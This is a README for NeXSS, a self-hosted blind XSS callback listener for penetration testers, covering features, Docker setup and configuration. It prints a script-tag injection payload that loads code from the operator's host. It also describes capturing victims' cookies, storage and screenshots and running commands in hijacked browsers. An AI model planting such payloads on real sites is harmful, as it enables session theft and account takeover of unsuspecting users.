








<p align="center">
  
</p>

<p align="center">
  <strong>Lightweight Blind XSS Listener</strong>
</p>

<p align="center">
  <a href="#features">Features</a> •
  <a href="#installation">Installation</a> •
  <a href="#usage">Usage</a> •
  <a href="#configuration">Configuration</a>
</p>

<p align="center">
  <a href="https://vercel.com/new/clone?repository-url=https://github.com/mastomii/nexss">
    
  </a>
  <a href="https://neon.tech">
    
  </a>
  <a href="https://dash.cloudflare.com/sign-up/r2">
    
  </a>
</p>

---

## Description

**NeXSS** is a modern, self-hosted Blind XSS (Cross-Site Scripting) hunter and callback listener built with Next.js. It helps security researchers and penetration testers discover and validate blind XSS vulnerabilities by capturing detailed information when payloads execute on target systems.

When your XSS payload triggers on a vulnerable application, NeXSS captures comprehensive data including cookies, DOM content, screenshots, local/session storage, and more — all delivered to your dashboard in real-time with optional Telegram notifications.

<p align="center">
  
  <br>
  <em>Dashboard with real-time statistics and recent reports</em>
</p>

## Features

| Feature | Description |
|---------|-------------|
| Blind XSS Detection | Automatically captures data when payloads execute |
| Screenshot Capture | Takes screenshots of the vulnerable page using html2canvas |
| Cookie Extraction | Captures all accessible cookies from the target |
| DOM Capture | Stores the full HTML content of the affected page |
| Storage Extraction | Captures localStorage and sessionStorage data |
| Request Details | Logs URL, origin, referer, user-agent, and IP address |
| Persistent Sessions | Maintain connection with compromised browsers for JS command execution |
| AES-256 Encryption | Secure communication channel for persistent sessions |
| Telegram Notifications | Real-time alerts with screenshots when XSS triggers |
| Object Storage | Store screenshots in S3, MinIO, or Cloudflare R2 |
| JWT Authentication | Secure session management |
| Docker Ready | Easy deployment with Docker Compose |

## Installation

### Prerequisites
- Docker & Docker Compose (recommended)
- Or: Node.js 18+ and PostgreSQL 15+

### Free Cloud Deployment

Deploy NeXSS for free using these services:

| Service | Purpose | Free Tier |
|---------|---------|-----------|
| [Vercel](https://vercel.com) | Next.js Hosting | Unlimited projects |
| [NeonDB](https://neon.tech) | PostgreSQL Database | 0.5 GB storage |
| [Cloudflare R2](https://cloudflare.com/r2) | Object Storage | 10 GB storage |

### Quick Start with Docker

```bash
# Clone the repository
git clone https://github.com/mastomii/nexss.git
cd nexss

# Configure environment
cp .env.example .env

# Start the application
docker compose up -d
```

Edit `.env` with your settings:

```env
# Database
DATABASE_URL=postgresql://nexss:your_secure_password@db:5432/nexss
POSTGRES_USER=nexss
POSTGRES_PASSWORD=your_secure_password
POSTGRES_DB=nexss

# Authentication (generate with: openssl rand -hex 32)
JWT_SECRET=your_jwt_secret_here
NEXTAUTH_SECRET=your_nextauth_secret_here
NEXTAUTH_URL=http://localhost:3000

# Public URL for payload callbacks
NEXT_PUBLIC_APP_URL=https://your-nexss-domain.com
```

Access the dashboard at `http://localhost:3000`

| | |
|---|---|
| Username | `admin` |
| Password | `admin123` |

> **Important:** Change the default password immediately after first login.

### Manual Installation

```bash
# Clone and install
git clone https://github.com/mastomii/nexss.git
cd nexss
npm install

# Setup database
psql -U postgres -c "CREATE DATABASE nexss;"
psql -U postgres -d nexss -f init.sql

# Configure and run
cp .env.example .env.local
npm run build
npm start
```

## Usage

### XSS Payloads

Configure your payloads from the Payloads page. Multiple payload formats are available:

<p align="center">
  
  <br>
  <em>Payload configuration with multiple injection formats</em>
</p>

Basic script tag injection:

```html
<script src="https://your-nexss-domain.com/"></script>
```

### Viewing Reports

All captured XSS triggers are displayed in the Reports page with filtering and search:

<p align="center">
  
  <br>
  <em>Reports list with timestamps and victim information</em>
</p>

Click on any report to view detailed information:

<p align="center">
  
  <br>
  <em>Detailed report view with screenshot, cookies, DOM, and storage data</em>
</p>

### Persistent Sessions

Enable persistent mode to maintain a connection with compromised browsers. This allows you to:

- Execute JavaScript commands in the victim's browser
- Retrieve additional data on-demand
- Perform actions as the victim user

<p align="center">
  
  <br>
  <em>Remote command execution on compromised browser sessions</em>
</p>

> **Note:** AES encryption for persistent sessions requires the target page to be served over HTTPS (Web Crypto API limitation). On HTTP targets, commands are sent unencrypted.

## Configuration

### Environment Variables

| Variable | Description | Default |
|----------|-------------|---------|
| `DATABASE_URL` | PostgreSQL connection string | Required |
| `JWT_SECRET` | Secret for JWT signing | Required |
| `NEXTAUTH_SECRET` | NextAuth.js secret | Required |
| `NEXTAUTH_URL` | Application base URL | `http://localhost:3000` |
| `NEXT_PUBLIC_APP_URL` | Public URL for payload callbacks | Uses request host |
| `NODE_ENV` | Environment mode | `production` |

### Object Storage

Store screenshots externally using S3-compatible storage:

<p align="center">
  
  <br>
  <em>Object storage configuration with S3, MinIO, or Cloudflare R2</em>
</p>

Supported providers:
- AWS S3
- MinIO
- Cloudflare R2

### Telegram Notifications

Get real-time alerts when XSS payloads trigger:

<p align="center">
  
  <br>
  <em>Telegram notification with screenshot preview</em>
</p>

Setup:
1. Create a bot via [@BotFather](https://t.me/BotFather)
2. Go to **Settings** > **Telegram Notifications**
3. Enter your bot token
4. Send `/start` to your bot
5. Click "Get Chat ID" to auto-detect
6. Send a test message to verify

## Contributing

Contributions are welcome. Please feel free to submit a Pull Request.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Disclaimer

This tool is intended for **authorized security testing only**. Only use NeXSS against systems you have explicit permission to test. Unauthorized access to computer systems is illegal. The developers assume no liability for misuse of this software.
